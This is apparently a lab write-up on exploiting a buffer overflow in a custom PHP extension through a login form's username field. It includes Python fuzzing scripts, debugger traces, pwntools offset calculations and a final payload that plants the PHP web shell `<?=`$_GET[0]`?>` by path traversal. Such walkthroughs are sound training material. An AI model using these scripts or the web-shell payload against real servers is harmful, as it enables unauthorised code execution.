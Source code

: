 # Buffer Overflow

## Using Python

The following program is attempting to seg fault the local php server on port 8000 through the username field

```python
#!/usr/bin/python3

import requests

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

for i in range(0, 50000, 100):
    print(i)
    username = "A" * i
    burp0_data = {"username": username, "password": "kali"}
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
```

Once we know our program is segmentation faulting, we can then adapt the code to manually check our boundaries

```python
#!/usr/bin/python3

import requests
import sys

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

username = "A" * int(sys.argv[1])
burp0_data = {"username": username, "password": "kali"}
req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
```

Once we then know our rough boundaries, we can automate manual enumeration with the following adaptation (given we suspect the segmentation fault is surrounding a boundary of `65535`)

```python
#!/usr/bin/python3

import requests
import sys

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

for i in reversed(range(65535)):
    print(i)
    username = "A" * i
    burp0_data = {"username": username, "password": "kali"}
    try:
        req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    except:
        input("Wait...")
```

We can then verify if we are overwriting parameters by viewing the following `GEF` trace output:

```
[#0] Id 1, Name: "php", stopped 0x7ffff7fb83b0 in event_recorder (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7fb83b0 → event_recorder(p=0x7fffffffa330 'A' <repeats 800 times>, w=0x7fffffffa3a0 'A' <repeats 688 times>)
[#1] 0x7ffff7fb89a1 → validating_userinput(username=<optimized out>, password=0x7ffff4e5a098 "kali")
[#2] 0x7ffff7fb8a79 → zif_say_lverifier(execute_data=<optimized out>, return_value=0x7ffff4e15070)
[#3] 0x5555558b9154 → execute_ex()
[#4] 0x5555558bf435 → zend_execute()
[#5] 0x55555584c730 → zend_execute_scripts()
[#6] 0x5555557e661a → php_execute_script()
[#7] 0x55555593bb62 → jmp 0x55555593bb16
[#8] 0x55555593c193 → test eax, eax
[#9] 0x555555939842 → and r12d, 0x4
```

We can see that we are overwriting the parameters of event recorder with all `A`'s

We can then use `cyclic` from `pwntools` to view the exact offset

```python
#!/usr/bin/python3

import requests
from pwn import *

context.arch = "amd64"

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

username = cyclic(65535)
burp0_data = {"username": username, "password": "kali"}

try:
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
except:
    input("Wait...")
```

Given the trace output:

```
[#0] 0x7ffff7fb83b0 → event_recorder(p=0x7fffffffa330 "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaaby
aabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaei
aaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagr
aagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaah", w=0x7fffffffa3a0 "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaac
daaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaae
maaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaag
vaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaah")
[#1] 0x7ffff7fb89a1 → validating_userinput(username=<optimized out>, password=0x7ffff4e5a098 "kali")
[#2] 0x7ffff7fb8a79 → zif_say_lverifier(execute_data=<optimized out>, return_value=0x7ffff4e15070)
[#3] 0x5555558b9154 → execute_ex()
[#4] 0x5555558bf435 → zend_execute()
[#5] 0x55555584c730 → zend_execute_scripts()
[#6] 0x5555557e661a → php_execute_script()
[#7] 0x55555593bb62 → jmp 0x55555593bb16
[#8] 0x55555593c193 → test eax, eax
[#9] 0x555555939842 → and r12d, 0x4
```

We can check the first 4 bytes to provide to cyclic from each `event_recorder` parameter and identify the offsets with the following gdb command

```
x/1wx 0x7fffffffa330
0x7fffffffa330: 0x61616165

x/1wx 0x7fffffffa3a0
0x7fffffffa3a0: 0x62616168
```

And check with cyclic with the following

```
ipython3
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0]
Type 'copyright', 'credits' or 'license' for more information
IPython 8.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from pwn import *

In [2]: cyclic_find(0x61616165)
Out[2]: 16

In [3]: cyclic_find(0x62616168)
Out[3]: 128
```

This tells us the distance between the start of where we see bytes, and the start of the cyclic string (our offset) which in this case is 16 and 128!

We then need to determine the exact size of each buffer with the following commands:

```
ipython3
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0]
Type 'copyright', 'credits' or 'license' for more information
IPython 8.14.0 -- An enhanced Interactive Python. Type '?' for help.

In [1]: len("eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabf
   ...: aabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaa
   ...: ciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadk
   ...: aadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaa
   ...: enaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafp
   ...: aafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraa
   ...: gsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahu
   ...: aahvaahwaahxaahyaah")
Out[1]: 784

In [2]: len("haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaci
   ...: aacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaa
   ...: dlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaen
   ...: aaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaa
   ...: fqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraags
   ...: aagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaa
   ...: hvaahwaahxaahyaah")
Out[2]: 672
```

Given that we are just trying to write to parameter 1 in this context, we first identify the total size of our payload being `784` (buffer size) + `16` (offset) to be `800`

We can then execute our bufferoverflow attack in this context:

```python
#!/usr/bin/python3

import requests
from pwn import *

context.arch = "amd64"

burp0_url = "http://127.0.0.1:8000/index.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://127.0.0.1:8000", "Connection": "close", "Referer": "http://127.0.0.1:8000/", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}

fname_offset = 16
fname_data = 128

username = cyclic(65535)

path = "/tmp/<?=`$_GET[0]`?>/../../../home/kali/htb/machines/ouija/php/server-management_system_id_0/thing.php"
username = "/" * (800 - len(path)) + path
username = username + "A" * (65535 - len(username))

burp0_data = {"username": username, "password": "kali"}

try:
    req = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
except:
    input("Wait...")
```

We keep the line `username = cyclic(65535)` in to be able to comment out the following line at any time and double check our offsets in case something seems to break

The addition of `+ "A" * (65535 - len(username))` to username is not normally required, but was required in this example.